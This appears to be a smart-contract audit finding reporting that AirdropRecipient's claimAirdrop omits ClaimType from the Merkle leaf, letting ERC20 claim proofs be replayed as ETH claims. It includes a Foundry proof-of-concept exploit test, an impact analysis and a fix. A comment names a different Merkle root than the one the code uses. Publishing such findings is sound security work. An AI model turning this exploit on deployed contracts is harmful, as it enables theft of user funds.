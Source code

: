 Crazy Chiffon Spider

High

# Claim logic in AirdropRecipient can be manipulated with different ClaimTypes to drain funds

## Summary
This issue allows for **manipulation by anyone** on how the airdropped amounts are distributed when we have multiple `ClaimTypes` for one Merkle root, which leads to **either losses** if it's called by an adversary, or **potential gains**, which will "**steal**" from airdrops intended for other NFTs.

## Vulnerability Detail
In `AirdropRecipient.sol` we can have the same merkle root set for different `ClaimTypes`, so we could use for example one merkle for 1 specific NFT, or for 1 specific owner. Either way this is vulnerable, since the `ClaimTypes` enum is not included in the Merkle proof.

Its **100% intended** to have multiple `ClaimTypes` for the same merkle root, for proof we can use this test as an example - [test_CannotDistributeExistingMerkle()](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/test/utils/AirdropRecipient.t.sol#L84C14-L94)

Which not only demonstrates it, but explicitly mentions it in a comment:
> Confirm that we can distribute the same merkle again to a different ClaimType

We lack any validation for claimType, so we can pass arbitrary values for it.
```solidity
@>> function claimAirdrop(bytes32 _merkle, Enums.ClaimType _claimType, MerkleClaim calldata _node, bytes32[] calldata _merkleProof) {
        if (!merkleClaims[_merkle][_claimType]) revert MerkleRootNotValid();

        bytes32 nodeHash = keccak256(abi.encode(_node));
        if (isClaimed[_merkle][nodeHash]) revert AirdropAlreadyClaimed();

        if (!MerkleProofLib.verifyCalldata(_merkleProof, _merkle, nodeHash)) revert InvalidClaimNode();
        isClaimed[_merkle][nodeHash] = true;

        if (_claimType == Enums.ClaimType.ERC20) {
@>>         if (!IERC20(_node.target).transfer(_node.recipient, _node.amount)) revert TransferFailed();
        } else if (_claimType == Enums.ClaimType.ERC721) {
            IERC721(_node.target).transferFrom(address(this), _node.recipient, _node.tokenId);
        } else if (_claimType == Enums.ClaimType.ERC1155) {
            IERC1155(_node.target).safeTransferFrom(address(this), _node.recipient, _node.tokenId, _node.amount, '');
        } else if (_claimType == Enums.ClaimType.NATIVE) {
@>>         (bool sent,) = payable(_node.recipient).call{value: _node.amount}('');
            if (!sent) revert TransferFailed();
        }
    }
```    
If we have 2 airdrops, one for **ERC20** and one for **NATIVE**, we will have 2 pairs of proofs with different `MerkleClaim` structs, which define the amount, recipient, etc.  
However, when those 2 pairs have the same root, it will be possible to swap them and use the proof for the **ERC20**, instead of the **NATIVE** claim.

### Coded PoC
Add this to AirdropRecipient.t.sol and use `forge test --match-test test_MerkleExploit -vvvv`
```solidity
    function test_MerkleExploit() public {
        //Ensure Locker contract has enough funds to distribute airdrop
        deal(address(locker), 5 ether);

        //We assume NATIVE is way more valuable than ERC20, as in most cases it would be.
        //Root is 0xca92ea31dbd5ac6a8ac71885a57cde1ebf7a21b45f6b6d27c5e8b75b36a6bc97
        //We use https://lab.miguelmota.com/merkletreejs/example/ - Use keccak256 hashing

        //========= ERC20 setup =========
        address claimerOne = address(1);
        IAirdropRecipient.MerkleClaim memory claimOne = IAirdropRecipient.MerkleClaim(claimerOne, address(erc20), 0, 1 ether);
        emit log_bytes32(keccak256(abi.encode(claimOne))); //0x9e6a01866327b729a94cd8c6fc0ae0d817f810bb08c0d14e8020d3093e1b6138

        //0xb61923e7df34c8e19739d449724a79d90c60b8faa54bbe2f9e10c3ff9d1dcd82
        emit log_bytes32(keccak256(abi.encode(IAirdropRecipient.MerkleClaim(claimerOne, address(erc20), 0, 0.2 ether)))); 

        //========== NATIVE (ETH) setup ==========
        //0xf7338c81ef403b37befb3805172ced4c8cdc67e0678c014c10cb4408216f8f10
        emit log_bytes32(keccak256(abi.encode(IAirdropRecipient.MerkleClaim(claimerOne, address(0), 0, 0.15 ether))));

        //===START===
        locker.distributeAirdrop(0xc80142463349dd7a3d98b99f5ef8ca70e428b51c219503fbeae86936116215f3, Enums.ClaimType.ERC20);
        locker.distributeAirdrop(0xc80142463349dd7a3d98b99f5ef8ca70e428b51c219503fbeae86936116215f3, Enums.ClaimType.NATIVE);

        // Now we can claim the NATIVE airdrop with the proof for the ERC20 airdrop
        // This is the proof for the 0x9e6a01866327b729a94cd8c6fc0ae0d817f810bb08c0d14e8020d3093e1b6138 leaf
        bytes32[] memory proof = new bytes32[](2);
        proof[0] = 0xb61923e7df34c8e19739d449724a79d90c60b8faa54bbe2f9e10c3ff9d1dcd82;
        proof[1] = 0xf7338c81ef403b37befb3805172ced4c8cdc67e0678c014c10cb4408216f8f10;

        locker.claimAirdrop({
            _merkle: 0xc80142463349dd7a3d98b99f5ef8ca70e428b51c219503fbeae86936116215f3,
            // Even though the (keccak256(abi.encode(claimOne) 0x9e6a01866327b729a94cd8c6fc0ae0d817f810bb08c0d14e8020d3093e1b6138 is for ERC20, we claim NATIVE
            _claimType: Enums.ClaimType.NATIVE,
            _node: claimOne, // 0x9e6a01866327b729a94cd8c6fc0ae0d817f810bb08c0d14e8020d3093e1b6138
            _merkleProof: proof
        });

        // Confirm that the user now successfully claimed the claimOne airdrop amount for the NATIVE claim
        // By using the proof for the ERC20 claim
        assertEq(payable(claimerOne).balance, 1 ether);
        assertEq(address(locker).balance, 4 ether);
    }
```    
### Impact

Both `MerkleClaim` structs for both proofs will contain different amounts but potentially the same recipient. (Even if the recipient is not the same, this would still lead to accounting errors and loss of funds.)

- If we have `1e18` in an **ERC** token, but `0.01e18` in a **NATIVE** token as an airdrop, it's likely that `1e18` **ERC20** will not be worth as much as 1 **ETH**. So we can exchange unworthy tokens for **ETH**, and this will basically be stolen from the contract.

- Anyone can claim on behalf of any user. So adversaries can create opposite scenarios and screw up more valuable claims for less valuable ones.
## Tool used

Manual Review

## Recommendation
Include the ClaimTypes enum in the MerkleClaim struct. This way, it will be embeded in the leaf, thus the ability to manipulate it will no longer be possible.